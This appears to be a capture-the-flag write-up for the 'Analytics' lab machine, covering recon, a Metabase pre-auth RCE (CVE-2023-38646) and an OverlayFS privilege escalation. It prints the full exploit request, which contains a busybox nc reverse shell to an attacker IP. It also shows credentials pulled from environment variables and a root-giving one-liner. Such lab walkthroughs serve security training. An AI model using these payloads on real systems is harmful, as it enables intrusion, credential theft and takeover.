

Analytics

Recon
Starting with nmap. Only SSH on 22 and nginx on 80, and port 80 redirects to analytical.htb, so that goes into /etc/hosts.
[analytics] nmap -Pn -v -T5 --min-rate 2000 -oN nmap -sSVC -p- 10.129.229.224
Nmap scan report for 10.129.229.224
Host is up (0.15s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe landing page is a marketing site for "Analytical", and its Login button points at http://data.analytical.htb, a second virtual host, so I added that to /etc/hosts as well.
[analytics] curl -s http://analytical.htb | grep .htb
<a class="nav-item nav-link" href="http://data.analytical.htb">Login</a>The login subdomain is a Metabase instance. Curling the page and grepping for the version string pins it to 0.46.6.
Exploitation
Metabase 0.46.6 is vulnerable to CVE-2023-38646, a pre-authentication RCE. Metabase leaks a setup-token at /api/session/properties even after setup is complete. The /api/setup/validate endpoint lets an unauthenticated user test a database connection, and for the bundled H2 engine the JDBC connection string accepts an INIT clause that runs arbitrary SQL. H2 in turn lets that SQL define a trigger whose body is Java, so a single validate request instantiates a trigger that calls java.lang.Runtime.getRuntime().exec(), which is full command execution before any login. I followed vulhub's writeup for this (vulhub CVE-2023-38646).
First grab the setup token:
[analytics] curl -s http://data.analytical.htb/api/session/properties | grep -o '"setup-token":"[^"]*"'
"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"Then POST that token to /api/setup/validate with an H2 connection whose init creates a trigger that shells out. The trigger body is unicode-escaped in the JSON, but it reduces to a busybox nc reverse shell:
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
{
"token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
"details": {
"details": {
"db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
"advanced-options": false,
"ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('busybox nc 10.10.15.208 35337 -e sh')\n$$"
},
"name": "an-sec-research-team",
"engine": "h2"
}
}Start a listener and fire the request. The trigger runs as soon as Metabase validates the connection and lands a shell as the metabase service account inside its container:
[analytics] nc -lnvp 35337
Listening on 0.0.0.0 35337
Connection received on 10.129.229.224 43403
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase)Post Exploitation
The shell is inside a container, so there is no flag here, but Metabase was configured with credentials passed as environment variables. printenv hands them over in cleartext:
metabase@3fe207a5e92e:/$ printenv | grep META
META_USER=metalytics
META_PASS=An4lytics_ds20223#That account is reused for a real system user, so it is a straight SSH login to the host for the user flag:
[analytics] ssh metalytics@analytical.htb
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ cat ~/user.txtPrivilege Escalation
The kernel is the tell. uname -a shows a vulnerable Ubuntu build:
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC ... x86_64 GNU/LinuxThis kernel is affected by GameOver(lay), CVE-2023-2640 and CVE-2023-32629, a flaw in Ubuntu's OverlayFS. An unprivileged user can create an overlay mount inside a user namespace and set file capabilities on the upper layer that are honoured on the real filesystem, so a capability like cap_setuid can be smuggled onto a binary we control. The overlay module is loaded, so the box is exploitable:
metalytics@analytics:~$ lsmod | grep overlay
overlay 188416 1The public one-liner copies python3 into the overlay's lower dir, grants it cap_setuid, mounts the overlay, and touches the file so the capability lands on the merged copy. That capable Python then calls setuid(0) and spawns a root shell:
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
> setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)Effective UID 0, so it is just reading /root/root.txt.